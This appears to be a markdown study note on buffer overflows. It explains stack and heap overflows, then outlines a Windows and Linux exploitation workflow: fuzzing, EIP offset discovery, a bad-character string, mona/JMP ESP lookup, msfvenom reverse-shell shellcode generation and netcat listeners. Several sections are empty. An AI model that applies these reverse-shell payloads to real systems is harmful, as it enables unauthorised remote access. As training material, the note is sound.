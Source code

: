 # buffer overflow

![Image result for buffer overflow](https://dpsvdv74uwwos.cloudfront.net/statics/img/ogimage/buffer-overflow-attacks.png)

[TOC]




## types


### stack based


A technically inclined user may exploit stack-based buffer overflows to manipulate the program to their advantage in one of several ways:

- By overwriting a local variable that is located near the vulnerable buffer on the stack, in order to change the behavior of the program
- By overwriting the return address in a [stack frame](https://en.wikipedia.org/wiki/Stack_frame). Once the function returns, execution will resume at the return address as specified by the attacker - usually a user-input filled buffer
- By overwriting a function pointer[[1\]](https://en.wikipedia.org/wiki/Buffer_overflow#cite_note-1) or [exception handler](https://en.wikipedia.org/wiki/Exception_handler), which is subsequently executed
- By overwriting a local variable (or pointer) of a different stack frame, which will be used by the function which owns that frame later  


![Image result for stack based  buffer overflow](https://payatu.com/wp-content/uploads/2018/01/c_prog_mem_layout.jpg)

### heap based

A buffer overflow occurring in the heap data area is referred to as a heap overflow and is exploitable in a manner different from that of stack-based overflows. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as [malloc](https://en.wikipedia.org/wiki/Malloc) meta data) and uses the resulting pointer exchange to overwrite a program function pointer




<img src="https://www.researchgate.net/profile/Roshan_Ragel/publication/230559751/figure/fig6/AS:669389712027653@1536606352473/Heap-based-Buffer-Overflow-Attack.png" alt="Image result for heap based buffer overflow" style="zoom:50%;" />

## exploitation

### windows buffer overflow

#### discovering vulnerablity 


we discover a application is vulnerable to buffer overflow  by fuzzing the application with a fuzzer

### introduction to immunity debuuger

#### adding the application to  imunnity debugger

####  

#### fuzzing the application 

a fuzzer  fuzzes the application with in an random incremental order such that the application stops when it detects a crash or timeout from the application we interact

#### replicating the crash 

we replicate crash by sending the appliation with value at which it crashed 

#### controlling the EIP

##### locating eip  by creating unique pattern

```
msf-pattern_create -h
msf-pattern_create -l length of buffer

```



##### locating the offset address of eip

```
msf-pattern_offset -h
msf-pattern_offset -l lengthofbuffer -q stringfromeip
```



#### locating space for shell code

##### checking for bad charcters

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](download.png)

##### redirecting the execution flow

##### finding the return address

 ##### introduction to mona

```
!mona
```



##### identifying the module with out aslr,dep,seh

##### nasm shell

```
msf-nasm_shell

nasm>jmp esp

!mona 
!mona modules 
!mona find -s "instruction " -m "module to search"

```



#### genrating shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=attackerip lport=attackerport -f fileformat -e x86/shikata_ga_nai -b "badcharcters"
```



#### optimising the shellcode



#### getting  reverse shell

```
nc -nlvp port to connect
```



#### improving the exploit







# linux buffer overflow

#### discovering the vulnerablity

### replicating the crash

### introduction to the edb(evans debugger)

```
edb
```



##### adding the applcation to the edb

```

```



### controlling the EIP

#### locating the eip using unique pattern 

```
msf-pattern_create -l string
```



#### locating the offset using the unique pattern

```
msf-pattern_offset -q string
```



### locating Space for shell code



#### geting opcodes

```
msf-nasm_shell
nasm>
nasmm>
```



### checking for bad charcters

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](download.png)

### finding a return address

```

```



### genrating shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -o outputname
```



### modfying shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -v shellcode
```



### getting shell

```
nc -nlvp port 
```

### [bufferoverflow exploits](https://github.com/5bhuv4n35h/buffer_overflow/tree/master/buffer_exploits)


### [practice applications](https://github.com/5bhuv4n35h/buffer_overflow/tree/master/applications)
